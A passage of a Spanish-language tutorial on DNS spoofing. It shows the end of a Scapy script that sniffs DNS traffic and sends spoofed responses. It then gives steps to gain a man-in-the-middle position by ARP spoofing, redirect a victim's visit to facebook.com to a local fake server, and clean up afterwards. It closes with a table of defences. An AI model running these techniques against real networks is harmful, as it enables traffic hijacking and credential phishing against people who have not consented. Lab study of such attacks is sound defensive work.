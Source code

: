 ```python
            send(spoofed_response, verbose=0)

print("[*] Escuchando tráfico DNS...")
sniff(filter="udp port 53", prn=dns_spoof)
```

---

### 🧪 ¿Cómo probarlo?

#### 1. Haz ARP Spoofing para situarte como MITM

Puedes usar Bettercap o el ejemplo anterior.

#### 2. En la víctima, abre el navegador y visita:

```
http://facebook.com
```

#### 3. Si todo funciona:

- El navegador será redirigido a `192.168.1.100`
- Puedes tener un servidor web falso ahí con:

```bash
mkdir fake_site
cd fake_site
echo "<h1>¡Fuiste redirigido!</h1>" > index.html
python3 -m http.server 80
```

---

### 🔄 Para detener todo

1. Detén el script con `Ctrl + C`
2. Restaura la tabla ARP (o reinicia la red)
3. Limpia las reglas de iptables si las usaste:

```bash
sudo iptables --flush
```

---

### 🔐 ¿Cómo protegerse?

| Protección           | ¿Por qué ayuda?                                     |
| -------------------- | --------------------------------------------------- |
| HTTPS                | Aunque llegues al sitio falso, el navegador detecta |
| DNSSEC               | Asegura respuestas DNS con firmas digitales         |
| VPN                  | Cifra todas las consultas DNS                       |
| DNS over HTTPS (DoH) | Protege DNS desde el navegador                      |
| Monitor de red       | Detecta respuestas DNS sospechosas o duplicadas     |

---